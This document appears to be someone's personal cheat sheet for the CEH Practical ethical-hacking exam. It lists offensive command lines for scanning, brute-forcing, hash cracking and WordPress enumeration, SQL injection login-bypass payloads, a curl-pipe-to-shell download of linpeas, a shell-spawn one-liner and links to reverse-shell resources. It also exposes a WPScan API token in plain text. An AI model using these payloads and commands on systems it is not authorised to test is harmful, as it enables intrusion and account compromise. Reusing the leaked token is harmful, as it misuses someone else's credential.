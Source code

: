 sudo su

vi get-stuff.sh

mkdir CEH
cd CEH
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
sudo chmod +x linpeas.sh
sudo apt install stegseek
sudo apt install gobuster
sudo apt install enum4linux
sudo apt install xsltproc
sudo gem install wpscan




## NMAP
sudo nmap -O -T5 -sV -sC -oA nmap_$ip1_out_all -vv $ip1/24
sudo xsltproc nmap_out_all.xml nmap_$ip1_out_all.html

cd CEH;mkdir $ip;cd $ip;sudo nmap -O -T5 -sV -sC -oA nmap_$ip\_out -vv $ip/24;sudo xsltproc nmap_$ip\_out.xml -o nmap_$ip\_out.html;firefox nmap_$ip\_out.html;

### All ports
sudo nmap -O -T5 -sV -sC -p- -oA nmap_$ip\\_out_all -vv $ip/24;sudo xsltproc nmap_$ip\\_out_all.xml -o nmap_$ip\\_out_all.html;

### Quick Host Discovery
sudo nmap -O -T5 -sn $ip/24 
sudo nmap -O -T5 -sn -PR $ip/24                   (-PR ARP requests)

nmap -p 3389 --script rdp-ntlm-info <target>




## GoBuster
sudo gobuster dir  -w /usr/share/wordlists/rockyou.txt -u http://$ip

## SQLi
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

sqlmap -u “url" --cookie="cookie" --dbs

## Burpsuite
FoxyProxy in firefox
https://jaimelightfoot.com/blog/burp-suite-for-beginners-setup-and-target-proxy-tools/

## Crypto:
https://www.tunnelsup.com/hash-analyzer/
https://crackstation.net/
https://medium.com/@FLAME93/introduction-b83f46c44c9a
Hashcat
https://github.com/unstable-deadlock/brashendeavours.gitbook.io/blob/master/pentesting-cheatsheets/hashcat-hash-modes.md


## Steganography
sudo stegseek -wl /usr/share/wordlists/rockyou.txt -sf filename

snow.exe -C -p “password” stegfile.txt

## Enum4Linux
sudo enum4linux -U -o $ip

## WPScan (https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)

### Known vulns
wpscan -e vp,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
### All vulns:
wpscan -e ap,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
### Password Bruteforce
wpscan -e u --passwords /path/to/password_file.txt  --url <example.com>
## Linpeas Winpeas also exists apparently
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
./linpeas.sh -a > /tmp/linpeas.txt

## BRUTEFORCING
### Hydra
hydra -l <username> -P given_wordlist ftp://$ip
https://github.com/frizb/Hydra-Cheatsheet

### John:
Zip file:
Zip2john file > hash.txt
John hash.txt

## Web App Vuln:
Nikto
Vega

## AD Stuff
### Find Domain Controller
https://serverfault.com/questions/78089/find-name-of-active-directory-domain-controller
### Find FDQN
https://www.google.com/search?q=determine+FDQN+of+remote+domain+controller&client=firefox-b-d&sca_esv=a7c8b91352f94de3&sxsrf=ADLYWIKttXggW1UFvbeJvw7jxaG1ZFa0Qg%3A1732694251615&ei=69BGZ8inJcmO4-EP0t3G8Qo&ved=0ahUKEwiIyfyKhfyJAxVJxzgGHdKuMa4Q4dUDCA8&uact=5&oq=determine+FDQN+of+remote+domain+controller&gs_lp=Egxnd3Mtd2l6LXNlcnAiKmRldGVybWluZSBGRFFOIG9mIHJlbW90ZSBkb21haW4gY29udHJvbGxlcjIKECEYoAEYwwQYCjIKECEYoAEYwwQYCjIKECEYoAEYwwQYCkjbEFCvBVj9CnABeAGQAQCYAb0CoAHXCqoBBzAuNi4wLjG4AQPIAQD4AQGYAgKgApwBwgIKEAAYsAMY1gQYR5gDAOIDBRIBMSBAiAYBkAYIkgcDMS4xoAfbOA&sclient=gws-wiz-serp


### Entropy of ELF
https://github.com/sandflysecurity/sandfly-entropyscan
Entry point for ELF: readelf -a executable_name



UNIX command exploits: GTFOBins
CEH exercise: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/system-hacking/tasks.md

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2.

Check all suid bit programs (find / -perm -u=s -type f 2>/dev/null)
python -c import pty;pty.spawn("/bin/bash")

General Check: https://book.thegurusec.com/certifications/certified-ethical-hacker-practical
General Check 2: https://github.com/cmuppin/CEH/tree/main/
General Check 3: https://book.hacktricks.xyz/
General Check 4: https://github.com/infovault-Ytube/CEH-Practical-Notes


Reverse Shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
		https://github.com/pentestmonkey/php-reverse-shell


Wpscan API key: j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ

Android: https://github.com/cmuppin/CEH/blob/main/Android
	https://attack.mitre.org/matrices/mobile/android/

Check Service vuln: https://www.cvedetails.com/

Metasploit Priv Esc: run post/multi/recon/local_exploit_suggester

CEH Notes: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/cloud-computing/tasks.md

OWASP CheatSheet: https://cheatsheetseries.owasp.org/cheatsheets/


TOOLS:
Nmap/zenmap
Metasploit
Searchsploit
Hydra
Aircrack-ng
Veracrypt
Theef RAT
BCTextEncoder
StegHide
Adb
John the ripper
Wireshark
Phonesploit
Sqlmap
ZAP
Open Stego
Detect It Easy (DIE)
Openvas
Smbclient
SSH
Crackstation
Hashes.com
Cyberchef
emn178.github.io/online-tools/crc32_checksum.html
